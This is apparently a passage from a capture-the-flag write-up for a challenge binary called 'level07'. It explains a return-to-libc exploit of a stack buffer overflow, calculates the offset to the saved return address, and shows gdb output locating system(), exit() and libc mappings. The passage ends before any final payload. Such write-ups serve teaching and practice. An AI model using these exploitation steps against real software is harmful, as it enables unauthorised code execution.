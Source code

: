 The `old eip` address is `0xffffd62c` and the address of the start of the buffer is `0xffffd464`: `4294956588 - 4294956132 = 456`.

There is a difference of 456 bytes between the 2 addresses, but because the `store_number()` function multiplies by 4 the index in order to store 4 bytes at once, we have to divide 456 by 4 in order to obtain the correct index: 114.

However we cannot use a shellcode like in the previous exercises, because at the start of the `main()` function all environment variables are erased.

After some researches, we find an alternative to shellcodes: the **return to libc** technique.

```
In a standard stack-based buffer overflow, an attacker writes their shellcode into the vulnerable program's stack and executes it on the stack. 

However, if the vulnerable program's stack is protected (NX bit is set, which is the case on newer systems), attackers can no longer execute their shellcode from the vulnerable program's stack. 

To fight the NX protection, a return-to-libc technique is used, which enables attackers to bypass the NX bit protection and subvert the vulnerable program's execution flow by re-using existing executable code from the standard C library shared object (/lib/i386-linux-gnu/libc-*.so), that is already loaded and mapped into the vulnerable program's virtual memory space, similarly like ntdll.dll is loaded to all Windows programs.
```

First we need to find the addresses of `system()` and `exit()`.

```
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

The `system()` address is `0xf7e6aed0` and the `exit()` address is `0xf7e5eb70`.

Then we need to find where the string `bin/sh` might be located in memory.

```
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) info proc map
process 2936
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
```